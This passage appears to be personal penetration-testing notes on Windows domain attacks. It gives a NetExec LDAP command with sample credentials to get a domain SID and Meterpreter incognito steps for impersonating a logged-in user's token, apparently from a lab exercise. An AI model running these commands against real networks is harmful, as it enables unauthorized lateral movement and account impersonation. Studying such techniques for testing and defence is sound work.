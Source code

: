 `nxc ldap 10.0.2.7 -u daethyra -p Password123 --get-sid`
- Running with `-k` flag, [as shown here](https://www.netexec.wiki/ldap-protocol/find-domain-sid), repeatedly failed to extract the SID
#### Token Impersonation w/ Incognito via Meterpreter
It may be helpful to check which user you are when first landing in a Meterpreter shell.
**Meterpreter shell steps**:
>Requires a user be logged in
1. `load incognito`
2. `list_tokens -u`
3. `impersonate_token <domain>\\<user>`
>>>Requires double backslash to escape the character

---
# Resources
1. https://www.netexec.wiki/smb-protocol/obtaining-credentials
2. 


#windows #meterpreter #lateral-movement #persistence #mimikatz #security-account-manager #local-security-authority #sam #lsa #netexec #domain-sid #kerberos #kerberoasting 
